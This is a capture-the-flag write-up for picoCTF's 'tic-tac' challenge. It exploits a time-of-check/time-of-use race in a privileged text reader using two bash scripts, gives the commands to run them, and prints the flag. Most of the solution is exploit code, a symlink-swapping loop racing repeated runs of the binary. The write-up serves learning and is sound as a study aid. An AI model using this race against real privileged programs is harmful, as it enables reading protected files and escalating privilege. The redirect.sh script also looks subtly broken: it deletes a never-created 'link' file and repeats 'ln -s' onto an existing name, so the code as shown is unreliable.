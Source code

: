 # tic-tac

## Challenge

### Description

Someone created a program to read text files; we think the program reads files with root privileges but apparently it only accepts to read files that are owned by the user running it.

`ssh` to `saturn.picoctf.net:50933`, and run the binary named "txtreader" once connected. Login as `ctf-player` with the password.

### Hints

(None)

## Solution

The program `txtreader` is compiled from [this source file](./src.cpp), which has a TOCTOU vulnerability.

Exploit scripts:

- redirect.sh

```sh
#!/bin/bash
# redirect.sh

while true
do
    rm flaglocal
    ln -s flag.txt flaglocal
    rm link
    ln -s fake.txt flaglocal
done
```

- exploit.sh

```sh
#!/bin/bash
# exploit.sh

while true; do
    ./txtreader flaglocal 2> /dev/null
done
```

And run them as follow

```console
$ touch fake.txt
$ ./redirect.sh &
$ exploit.sh
```

Wait a while, and we get the flag. How long we have to wait depends entirely on luck.

## Flag

picoCTF{ToctoU_!s_3a5y_5748402c}
